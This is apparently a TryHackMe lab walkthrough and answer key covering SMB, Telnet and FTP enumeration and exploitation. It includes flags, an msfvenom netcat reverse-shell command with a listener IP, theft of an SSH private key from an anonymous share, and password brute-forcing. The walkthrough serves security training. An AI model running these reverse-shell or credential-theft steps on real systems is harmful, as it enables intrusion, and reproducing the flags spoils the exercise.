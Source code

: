#  TryHackMe - Network Services (Room 015)

## Please try and answer all questions before looking at the answers to test your knowledge :)

<details><summary>Task 1 - Understanding SMB</summary>
<p>

## Task 1.1

### Q: What does SMB stand for?

A: Server Message Block Protocol

## Task 1.2

### Q: What type of protocol is SMB?

A: Response-Request

## Task 1.3

### Q: What do clients connect to servers using?

A: TCP/IP

## Task 1.4

### Q: What systems does Samba run on?

A: Unix

</p>
</details>

<details><summary>Task 2 - Enumerating SMB</summary>
<p>
	
## Task 2.1

### Q: Conduct an __nmap__ scan of your choosing. How many ports are open?

A: 3

![](/Network%20Services/images/nmap.png)

## Task 2.2

### Q: What port is SMB running on?

A: 139/445

## Task 2.3

### Q: Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the WORKGROUP name?

A: WORKGROUP

![](/Network%20Services/images/WORKGROUP.png)


## Task 2.4

### Q: What comes up as the __name__ of the machine?

A: POLOSMB

![](/Network%20Services/images/polosmb.png)

## Task 2.5

### Q: What operating system version is running?

A: 6.1

## Task 2.6

### Q: What share sticks out as something we might want to investigate?

A: profiles

![](/Network%20Services/images/profiles.png)

</p>
</details>

<details><summary>Task 3 - Exploiting SMB</summary>
<p>
	
## Task 3.1

### Q: What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

A: smbclient //10.10.10.2/secret -U suit -p 445

## Task 3.3

### Q: Let's see if our interesting share has been configured to allow anonymous access - that it does not require authentication to view the files. We can do this easily by:

	* using the username "anonymous"
	* connecting to the share we found during the enumeration stage
	* and not supplying a password

Does the share allow anonymous access? Y/N?

A: Y

![](/Network%20Services/images/smbclient.png)

## Task 3.4

### Q: Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

A: John Cactus

![](/Network%20Services/images/john.png)

## Task 3.5

### Q: What service has been configured to allow him to work from home?

A: SSH

## Task 3.6

### Q: Okay! Now that we know this, what directory on the share should we look in?

A: .ssh

## Task 3.7

### Q: This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

A: id_rsa

## Task 3.8

### Q: Download this file to your local machine and change the permissions to 600. Now, use the information you have already gathered to work out the username of the account. Then use the service and key to log-in to the server. What is the smb.txt flag?

A: THM{smb_is_fun_eh?}

![](/Network%20Services/images/ssh.png)

</p>
</details>

<details><summary>Task 4 - Understanding Telnet</summary>
<p>
	
## Task 4.1

### Q: What is Telnet?

<details><summary>Answer</summary>
<p>

A: Application Protocol

</p>
</details>

## Task 4.2 

### Q: What has slowly replaced Telnet?

<details><summary>Answer</summary>
<p>
	
SSH

</p>
</details>

## Task 4.3

### Q: How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

<details><summary>Answer</summary>
<p>
	
telnet 10.10.10.3 23

</p>
</details>

## Task 4.4

### Q: The lack of what means that all Telnet communication is in plaintext?

<details><summary>Answer</summary>
<p>
	
Encryption

</p>
</details>

</p>
</details>

<details><summary>Task 5 - Enumerating Telnet</summary>
<p>
	
## Task 5.1

### Q: How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>

1

![](/Network%20Services/images/nmap2.png)

</p>
</details>

## Task 5.2

### Q: What port is this?

<details><summary>Answer</summary>
<p>

8012

</p>
</details>

## Task 5.3

### Q: This port is unassigned, but still lists the protocol it is using, what protocol is this?

<details><summary>Answer</summary>
<p>

TCP

</p>
</details>

## Task 5.4

### Q: Now re-run the namp scan without the -p- flag. How many ports show up as open?

<details><summary>Answer</summary>
<p>
	
0

![](/Network%20Services/images/closed.png)

</p>
</details>

## Task 5.5 - no answer needed

### Here, we see that by assigning Telnet to a __non-standard port__ it is not part of the common ports list or top 1000 ports that nmap scans. It is important to try every angle when enumerating as the information you gather here will inform your exploitation stage

## Task 5.6

### Q: Based on the title returned to us, what do we think this port could be used for?

<details><summary>Answer</summary>
<p>
	
A backdoor

![](/Network%20Services/images/backdoor.png)

</p>
</details>

## Task 5.7

### Q: Who could it belong to? Gathering possible usernames is an important step in enumeration?

<details><summary>Answer</summary>
<p>
	
Skidy

</p>
</details>

## Task 5.8 - no answer needed

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits

</p>
</details>

<details><summary>Task 6 - Exploiting Telnet</summary>
<p>
	
## Task 6.1 - no answer needed

### Okay, let's try and connect to this telnet port

## Task 6.2

### Q: Great! It's an open telnet connection. What welcome message do we receive?

<details><summary>Answer</summary>
<p>
	
SKIDY'S BACKDOOR

![](/Network%20Services/images/skidy.png)

</p>
</details>

## Task 6.3

### Q: Let's try executing some commands. Do we get a returnon any input we enter into the telnet session (Y/N)

<details><summary>Answer</summary>
<p>

N

![](/Network%20Services/images/run.png)

</p>
</details>

## Task 6.4 - no answer needed

### Q: That's strange. Let's check to see if what we are typing is being executed as a system command

## Task 6.5 - no answer needed

### Q: Start a tcpdump listener on your local machine using `sudo tcpdump ip proto \\icmp -i tun0` - this starts a tcpdump listener specifically listening for ICMP traffic which ping operates on

## Task 6.6

### Q: Now, use the command `ping [local tun0 ip] -c 1` through the telnet session to see if we are able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

<details><summary>Answer</summary>
<p>
	
Y

![](/Network%20Services/images/ping.png)

</p>
</details>

## Task 6.7 - no answer needed

### Q: Great! This means we are able to execute system commands AND that we are able to reach our local machine

## Task 6.8

### Q: We are going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax

	`msfvenom -p cmd/unix/reverse_netcat lhost=10.11.3.112 lport=4444 R`

Flag | Description
------------ | -------------
-p | payload
lhost | our local host IP
lport | the port to listen on
R | export the payload in RAW format

What word does the generated payload start with?

<details><summary>Answer</summary>
<p>
	
mkfifo

![](/Network%20Services/images/mkfifo.png)

</p>
</details>

## Task 6.8

### Q: Perfect. We are nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using

	`nc -vlp [listening port]`

What would the command look like for the listening port we selected?

<details><summary>Answer</summary>
<p>
	
nc -lvp 4444

</p>
</details>

## Task 6.10 - no answer needed

### Q: Great! Now that's running we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully - this will give us a shell on the target machine

## Task 6.11

### Q: Success! What is the contents of flag.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_t3ln3t_fl4g}

![](/Network%20Services/images/telnet_flag.png)

</p>
</details>

</p>
</details>

<details><summary>Task 7 - Understanding FTP</summary>
<p>
	
## Task 7.1

### Q: What communications model does FTP use?

<details><summary>Answer</summary>
<p>
	
client-server	

</p>
</details>	

## Task 7.2

### Q: What is the standard FTP port?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 7.3

### Q: How many modes of FTP connection are there?

<details><summary>Answer</summary>
<p>
	
2	

</p>
</details>

</p>
</details>

<details><summary>Task 8 - Enumerating FTP</summary>
<p>
	
## Task 8.1

### Q: Run an nmap scan. How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>
	
2

</p>
</details>

## Task 8.2

### Q: What port is FTP running on?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 8.3

### Q: What variant of FTP is running on it?

<details><summary>Answer</summary>
<p>
	
vsftpd

![](/Network%20Services/images/vsftpd.png)
	
</p>
</details>

## Task 8.4

### Great! Now that we know that type of FTP server we are dealing with we can check to see if we are able to login anonymously to the FTP server

We can do this by typoing `ftp [IP]` into the console and entering anonymous as the username and no password

What is the name of the file in the anonymous FTP directory?

<details><summary>Answer</summary>
<p>
	
PUBLIC_NOTICE.txt

![](/Network%20Services/images/notice.png)
	
</p>
</details>

## Task 8.5

### Q: What do we think a possible username could be?

<details><summary>Answer</summary>
<p>

mike

![](/Network%20Services/images/notice.png)

</p>
</details>

## Task 8.6 - no answer needed

### Q: Great! Now we have got details about the FTP server and a possible username

</p>
</details>

<details><summary>Task 9 - Exploiting FTP</summary>
<p>
	
## Task 9.1

### Q: What is the password for the user "mike"?

<details><summary>Answer</summary>
<p>
	
password

![](/Network%20Services/images/hydra.png)

</p>
</details>

## Task 9.2 - no answer needed

### Q: Bingo! Now, let's connect to the FTP server as this user using `ftp [IP]` and entering the credentials when prompted

## Task 9.3

### Q: What is ftp.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_ftp_fl4g}

![](/Network%20Services/images/flag.png)

</p>
</details>

</p>
</details>